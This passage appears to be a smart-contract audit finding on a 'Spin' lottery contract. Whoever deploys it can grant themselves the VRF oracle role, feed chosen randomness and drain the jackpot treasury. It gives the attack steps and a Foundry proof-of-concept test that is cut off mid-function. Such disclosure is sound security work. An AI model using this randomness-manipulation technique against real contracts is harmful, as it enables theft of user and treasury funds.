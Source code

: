 ### Attack Vector
1. **Malicious Deployment**: Attacker deploys the Spin contract with their own address as `supraRouterAddress`
2. **Oracle Privilege**: This grants the attacker **SUPRA_ROLE**, making them the trusted VRF oracle
3. **Randomness Manipulation**: Attacker can call `handleRandomness()` with arbitrary values
4. **Guaranteed Jackpots**: Setting `rng[0] = 0` guarantees jackpot wins
5. **Treasury Drain**: Attacker can repeatedly win maximum jackpots until treasury is empty

### Vulnerable Code Path
```solidity
function handleRandomness(uint256 nonce, uint256[] memory rngList) external onlyRole(SUPRA_ROLE) {
    // ❌ Attacker controls this function due to malicious SUPRA_ROLE assignment
    uint256 randomness = rngList[0];
    uint256 probability = randomness % 1_000_000; // Normalize to 1M range
    
    if (probability < jackpotThreshold) { // rng[0] = 0 guarantees this condition
        // Jackpot logic - attacker can force this by setting rng[0] = 0
        _safeTransferPlume(user, jackpotAmount * 1 ether);
    }
}
```

## Proof of Concept

### Prerequisites
- Treasury funded with >= jackpot amount (100,000 ETH for week 11)
- Tested on Solidity 0.8.25

The PoC demonstrates complete treasury drain with proper VRF mocking:

```solidity
function testPoCCriticalOracleManipulation() public {
    uint256 initialBalance = attacker.balance;
    
    // 1. Attacker deploys with self as supraRouter (gains SUPRA_ROLE)
    spin = new Spin();
    spin.initialize(attacker /*supraRouter*/, address(dt));
    
    // 2. Set up week 11 for maximum 100k ETH jackpot
    spin.setCampaignStartDate(block.timestamp - 11 weeks);
    spin.setEnableSpin(true);
    spin.whitelist(attacker); // Bypass daily cooldown for testing
    
    // 3. Mock generateRequest with correct signature (5 parameters)
    vm.mockCall(
        attacker,
        abi.encodeWithSignature("generateRequest(string,uint8,uint256,uint256,address)"),
        abi.encode(uint256(123))
    );
    
    // 4. Set streak to meet jackpot requirement (week 11 needs 13+ streak)
    // UserData: [jackpotWins, raffleTicketsGained, raffleTicketsBalance, PPGained, plumeTokens, streakCount, lastSpinTimestamp, nothingCounts]
    bytes32 userDataSlot = keccak256(abi.encode(attacker, uint256(2))); // userData mapping at slot 2
    bytes32 streakSlot = bytes32(uint256(userDataSlot) + 5); // streakCount at offset 5
    vm.store(address(spin), streakSlot, bytes32(uint256(13)));
    
    // 5. Execute jackpot spin
    uint256 contractBalanceBefore = address(spin).balance;
    spin.startSpin{value: spin.spinPrice()}(); // Pay 2 ETH fee
    
```